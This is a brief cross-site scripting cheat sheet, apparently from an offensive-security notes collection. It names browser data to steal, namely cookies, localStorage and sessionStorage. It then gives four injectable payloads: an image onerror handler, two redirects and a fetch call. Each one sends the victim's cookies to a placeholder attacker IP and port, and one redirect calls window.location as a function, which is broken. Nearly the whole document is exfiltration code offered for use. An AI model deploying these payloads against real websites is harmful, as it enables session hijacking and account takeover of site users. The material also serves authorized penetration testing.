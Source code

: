 #xss

## Interesting Data
- `document.cookie` (will only work on cookies that have not the `HTTP-only` flag set).
- `JSON.stringify(localStorage)`
- `JSON.stringify(sessionStorage)`

## Examples of Ways to Exfiltrate Data
### Image
```js
<img src=x onerror=this.src='[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie>
```

### Redirection

```js
<script>document.location.replace('http://[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie)</script>
```

```js
<script>window.location('http://[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie)</script>
```

### Fetch
```js
<script>fetch('[ATTACKER_IP]:[ATTACKER_PORT]?cookie=' + btoa(document.cookie) );</script>
```

